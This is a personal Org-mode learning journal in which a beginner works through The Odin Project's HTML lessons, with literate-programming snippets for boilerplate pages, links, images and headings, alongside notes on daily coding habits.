    <<Curly Quotes>>
  </body>
</html>
#+end_src

Unzip images.

#+begin_src shell :dir odin/assignments/foundations/interneting-links-and-images/
unzip images-4149f7.zip
rm images-4149f7.zip
#+end_src

#+RESULTS:
| Archive:   | images-4149f7.zip |
| inflating: | -4149f7.zip       |

Absolute links.

~<<links>> +≡~

#+begin_src html :noweb-ref links
<li>Absolute links, like to
  <a href='https://developer.mozilla.org/en-US/docs/Web/HTML'
    target='_blank'>Mozilla
    Developer Network</a>,
  which is a very good resource for web developers.
</li>
#+end_src

Relative Links.

~<<links>> +≡~

#+begin_src html :noweb-ref links
<li>Relative links, like to our <a href='misc/extras.html'>extras page</a>.
</li>
#+end_src

~<<links>> +≡~

#+begin_src html :noweb-ref links
<!-- This won't work for our local HTML files -->
<li>Root-relative links, like to the
  <a href='/'>home page</a>
  of our website, but those aren't useful to us right now.
</li>
#+end_src

Add the images.
First a JPG, good for *pictures* (large color palettes).

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>JPGs</h2>
<p>JPG images are good for photos.</p>
<img src='images/mochi.jpg' width='75'
<<alt jpg>>
  >
#+end_src

Then a GIF, for *animations*, (short color palettes, crude transparency).

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>GIFs</h2>
<p>GIFs are good for animations.</p>
<img src='images/mochi.gif' width='75'
<<alt gif>>
  >
#+end_src

Now a PNG, good transparency, large color palletes, but bigger than JPG.
Useful for small images that need good transparency, like icons and logos.

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>PNGs</h2>
<p>PNGs are good for icons and logos.</p>
<img src='images/mochi.png' width='75'
<<alt png>>
  >
#+end_src

Finally the SVG, /vector/ based (as opposed to /pixel/-): scales without loss of quality.
Use them instead of PNGs whenever possible.

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>SVGs</h2>
<p>SVGs are <em>amazing</em>. Use them wherever you can.</p>
<img src='images/mochi.svg' width='75'
<<alt svg>>
  >
#+end_src

~<<alt jpg>> +≡~

#+begin_src html :noweb-ref alt jpg
alt='A mochi ball in a bubble'
#+end_src

~<<alt gif>> +≡~

#+begin_src html :noweb-ref alt gif
alt='A dancing mochi ball'
#+end_src

~<<alt png>> +≡~

#+begin_src html :noweb-ref alt png
alt='A mochi ball'
#+end_src

~<<alt svg>> +≡~

#+begin_src html :noweb-ref alt svg
alt='A mochi ball with Bézier handles'
#+end_src

~<<Curly Quotes>> +≡~

#+begin_src html :noweb-ref Curly Quotes
<p>If you&rsquo;re into &ldquo;web typography,&rdquo; you&rsquo;ll also find
   yourself using curly quotes quite a bit.
</p>
#+end_src

**** Reserved Characters
~<<Reserved Characters>> +≡~

#+begin_src html :noweb-ref Reserved Characters
<h2>HTML Entities</h2>
<p> There are three reserved characters in HTML:
  <strong>&lt;</strong> <strong>&gt;</strong> and <strong>&amp;</strong>.
  You should always use HTML entities for these three characters.
</p>
#+end_src

** Seinfeld Checkmark
[[file:images/2025-09-27_seinfeld.jpeg]]

* [2025-09-26 Fri]
** Feel like snowballing.
Was drifting and rabbit-holling, as per usual
Checking out the [[https://www.theodinproject.com/dashboard][Odin Project]], thought it was cool they also develop /character/.
Grit, resilience, and the rollercoaster to mastery were eye-openers to me.

Asked ChatGPT for help there.
Got realistic market analysis, criticism about main goal, specific roadmap with projects, and milestones.

Started applying the Seinfeld checkmarks.
I want to code a minimum of 1 hour every day.
Almost procrastinated until I bought a cool sheet with the squares, but ended up doing it by hand.

[[file:images/2025-09-26_seinfeld.jpeg]]

I really like those sites that allow you to code online.
Did 3 min of Exercism, elisp.
But then felt guilty, because I was derailing from the reading materials from Odin.
I want to code in other languages, besides JS.
I'll make sure to include them.
I want it to be also fun and enjoyable :)

Decided to turn this into a journal for accountability.
A bit of afraid this will derail me (happened in the past), but more confident on my resilience and emotional regulation skills this time.
Let's see.

Reading a lot of the initial material from Odin.
Decided on the Foundations.
Gonna follow this one---and *not* derail!
Need to feel secure about this.
But have to be careful about rabbit holes.

Personally, I tend to try to become a "specialist" on every detail.
Many times I don't get past the first stages of the learning process.
Journaling helps me a lot here.

Just opened a new issue on Odin's page.
I want to start collaborating.
It's a really easy one, but it's a start.

Just found out I goofed-up: the /real/ issue was my eagerness...
The issue is non-existant: I misread the text...
Well, one good opportunity to learn about this current personality trait!

Fitst session of the day ended.
Could finish all the initial readings and setup stuff.

Next: HTML!

** Odin recommended a site that has some JS.
Let's see if I remember it.
It's the code to sum two numbers.
It's a bit more complicated, because involves accessing the DOM.
Let's simplify it.
Just sum the contents of two variables, and assign it to another variable.

#+begin_src js
function sum (a, b) {
    let total = a + b;
    return total;
}
#+end_src

#+begin_quote
function NAME (ARGS) { STATEMENT; ... }
#+end_quote

And it returns with =return=.

Node.js is used to run JS in the server.

HTML: the page has *content*, which is enclosed in *tags*, forming *elements*.

An HTML tag is the markup language entity used to define elements with the content that will be shown on the page.

The element has
1. Opening tag;
2. Content;
3. Closing tag.


Void elements
- Don't have a closing tag; and
- Have no content.


We're coding, baby!

[[file:html-boilerplate/index.html][html-boilerplate/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <<head Block>>

  <<body Block>>
</html>
#+end_src

The =head= contains metadata and rendering instructions.
*No page content* here.
Always the first element inside =<html>=.

~<head Block> +≡~

#+begin_src html :noweb-ref head Block
<head>
  <<charset>>
  <<title>>
</head>
#+end_src

Let's make sure all glyphs show correctly.

~<<charset>> +≡~

#+begin_src html :noweb-ref charset
<meta charset="UTF-8">
#+end_src

Now the title.

~<<title>> +≡~

#+begin_src html :noweb-ref title
<title>My first page from Odin</title>
#+end_src

~<<body Block>> +≡~

#+begin_src html :noweb-ref body Block
<body>
  <<body Contents>>
</body>
#+end_src

Now add this to Emacs =web-mode=.

#+begin_src elisp
(add-to-list 'web-mode-snippets
               '("my-odin-html-boilerplate"
                 "<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
  </body>
</html>
"))
#+end_src

~<<body Contents>> +≡~

#+begin_src html :noweb-ref body Contents
<h1>Hello, World!</h1>
#+end_src

And W3 validate, baby!

I did some coding in HTML, and some debugging in Emacs.  Either Org or =noweb= were misbehaving.
Didn't know which though---I just restarted Emacs, and everything went back to normal.
Could apply the steps recommended by Odin for analyzing the problem, and it helped.

** 1h Coding, Hello World, HTML Boilerplate
:PROPERTIES:
:header-args: :session hello world
:END:
End of the day, after busking.
Kinda desperate that I didn't code today's 1h.
But there's plenty of time.
Thought of doing some elisp, but wanna focus on JS.

Let's try Exercism.
Can't really do the exercises without knowing the language, and don't think grinding on Exercism is a good use of my time.

Gonna go back to Odin, even if it is more /theory/ now.
There's hopefully some coding even now in the beginning.
If not, I'll reserve some time later and code elisp.

** Working with Text
*** Create a blog post
#+begin_quote
Create a plain blog article page which uses different headings, uses paragraphs, and has some text in the paragraphs bolded and italicized.
You can use Lorem Ipsum to generate dummy text, in place of real text as you build your sites.
#+end_quote

[[file:odin/assignments/foundations/working-with-text/index.html][odin/assignments/foundations/working-with-text/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Lorem ipsum</title>
  </head>

  <body>
    <h1>Phasellus neque orci, porta a, aliquet quis, semper a, massa</h1>
    <p>Aliquam erat volutpat.  Nunc eleifend <em>leo vitae magna</em>.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at <strong>peed</strong>.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod <strong>tellus id erat</strong>.</p>

    <h2>Donec hendrerit tempor tellus</h2>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h3>Aliquam posuere</h3>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <h3>Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h2>Mauris mollis tincidunt felis</h2>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <h3>Lorem ipsum dolor sit amet, consectetuer adipiscing eli</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>
  </body>
</html>

#+end_src

** First Seinfeld checkmark!
And this coding session warranted me my first one Seinfeld checkmark!

[[file:images/2025-09-26_seinfeld_checked.jpeg]]

* [2025-09-24 Wed]
So, we're learning Web Dev.
Well, at least /I/ am!

Let's make it easier and more fun with Literate Programming in Org Mode.

Starting from the fundamentals.
Web pages are all about navigating through content.
To make things easier, we have:
- HTML, for /structure/;
- CSS, for /style/;
- Javascript, for /logic/.


A minimal html page [[https://html.spec.whatwg.org/multipage/syntax.html?utm_source=chatgpt.com#writing][must have]]:

#+begin_src html
<!DOCTYPE html>
<html>
</html>
#+end_src

Here:
- ~<!DOCTYPE html>~ is the /Document Type Declaration/; it tells the browser the specifications that the page follows.
- ~<html>~ and ~</html>~ enclose the page itself.

The fundamental element of a web page is... well, an =element=.
By definition, an =element= is composed by (example inside the parentheses):
- opening tag (~<html>~);
- everything in between (called /content/);
- closing tag (~</html>~).

The page is made of a /sequence of elements/.

Some elements may be /empty/: they don't have a closing tag.
Example: ~<!DOCTYPE html>~.

A /cool/ first web page would be:

[[file:hello-world.html][hello-world.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <p>Hello, World!</p>
</html>
#+end_src

*NOTE:* Here the /contents/ of the =element= ~<p>~ are "Hello, world!".

The ~<html>~ element contains all the elements of the whole page.
Only two tags should be immediately inside it: ~<head>~ and ~<body>~.
~<head>~ contains /metadata/; more about this below.
~<body>~ contains all the /visible/ elements of the page.

Then, each element of the page is either inside ~<head>~ or ~<body>~.
This is illustrated below.

#+begin_src
<html>
|
+- <head>
|
+- <body>
#+end_src

To help make things more clear, we'll call
- /Document/: the elements ~<!DOCTYPE>~ and ~<head>~ together, and
- /Page/: the ~<body>~ element.


For instance: ~hello-world.html~ contains the whole /document/.
When we open it on a browser, we see the (obviously /visible/) /page/, which is inside ~<body>~.

Let's then fix our first page!
It had a ~<p>~ element immediately inside ~<html>~, which is against the specs.
It must be inside ~<body>~.

We also have to add a ~<head>~ inside ~<html>~.
We could leave it empty, but that's not cool.
We'll put a ~<title>~ inside it.
~<title>~ is the /page/ title, that appears as the "name" of the browser window or the page's tab in the browser.

[[file:hello-world-fixed.html][hello-world-fixed.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <head>
    <title>My first fixed page</title>
  </head>
  <body>
    <p>Hello, World!</p>
  </body>
</html>
#+end_src

If you open both ~hello-world.html~ and ~hello-world-fixed.html~, you'll see that they look the same.
This shows how /forgiving/ HTML is.
It really tries to help us get there.
Good on you, HTML!

To help organizing paragraphs, we have /headings/.
They give us /six/ of them: ~<h1>~ to ~<h6>~.

[[file:headings.html][headings.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <head>
    <title>Guess who my favorite was?</title>
  </head>
  <body>
    <h1>S.H.I.E.L.D. Team</h1>
    <h2>Nick Fury</h2>
    <p>Leading S.H.I.E.L.D. with an iron will and one eye on the bigger picture. He always anticipates threats before they happen. His presence commands respect across the superhero community. Nothing slips past his watchful eye.</p>

    <h2>Phil Coulson</h2>
    <p>The calm in the storm, proving loyalty is a superpower. Coulson bridges heroes and humans with tact and understanding. He carries a quiet strength that inspires trust. Even in chaos, his steady hand guides the team.</p>

    <h2>Maria Hill</h2>
    <p>Strategic, precise, and always ready for action. Hill can handle the toughest missions with clarity and focus. Her decisiveness keeps S.H.I.E.L.D. running smoothly. She never hesitates when lives are on the line.</p>

    <h2>Melinda May</h2>
    <p>The Cavalry—silent, deadly, and unstoppable. May’s combat skills are unmatched in the field. Beneath her stoic exterior lies fierce loyalty to her team. Every mission she undertakes is executed with perfection.</p>

    <h2>Leopold Fitz</h2>
    <p>Brains behind the tech, making the impossible possible. Fitz’s inventions often turn the tide in dire situations. His curiosity drives constant innovation. Even under pressure, his intellect shines brilliantly.</p>

    <h2>Skye</h2>
    <h3>Hacker</h3>
    <p>Skye starts out as a brilliant hacker, using her skills to uncover secrets and fight for justice from the shadows. Her curiosity and determination make her a force to be reckoned with. Even before joining S.H.I.E.L.D., she proves she can challenge the system.</p>

    <h3>Agent</h3>
    <p>Joining S.H.I.E.L.D., Skye becomes a trained field agent, learning to balance her intellect with physical skill. She adapts quickly to missions, proving her value to the team. Her loyalty and resourcefulness grow stronger with every challenge.</p>

    <h3>Daughter</h3>
    <p>Skye discovers her true identity as Daisy Johnson, the daughter of a powerful Inhuman. This revelation reshapes her understanding of herself and her powers. She struggles but ultimately embraces her heritage, gaining confidence and purpose.</p>

    <h3>Leader</h3>
    <p>Over time, Skye evolves into a capable leader, guiding missions and protecting her team. Her experience as both an outsider and a hero gives her unique insight. She inspires others through courage, empathy, and decisiveness.</p>

    <h3>Quake</h3>
    <p>Fully embracing her abilities, Skye becomes Quake, wielding seismic powers to combat threats. She balances heroism with personal growth, using her strength to defend the world. Quake is the culmination of her journey, symbolizing resilience, power, and identity.</p>
  </body>
</html>
#+end_src

Interesting to note that the paragraphs inside a heading are *not* nested inside it.

Now comes the ~<br>~ element.
It forces a line break in the text.
It is an /empty/ element, meaning it has no content.
This implies it does *not* need nor have an end tag.

In the example below, the poem has two versions: in the first one, the line breaks are only in the source code, and the second version /forces/ them with ~<br>~.
Only the second one gets the expected result (well, at least on a big screen).

[[file:br.html][br.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <head>
    <title>br, but not for Brazil</title>
  </head>
  <body>
    <p>He-Man stands tall, sword held high,
      Shadows flee where his heroes fly.
      In Eternia’s heart, he lights the night,
      Strength and courage his endless might.</p>

    <p>He-Man stands tall, sword held high,<br>
      Shadows flee where his heroes fly.<br>
      In Eternia’s heart, he lights the night,<br>
      Strength and courage his endless might.</p>
  </body>
</html>
#+end_src

Now is a good time to note that the tag names are case-insensitive.
Very sensible of forgiving HTML.
But (there's always one (well, not /always/)) *lowercase is recommended* in general and *demanded* for stricter document types like XHTML.
Let's keep it down low then.
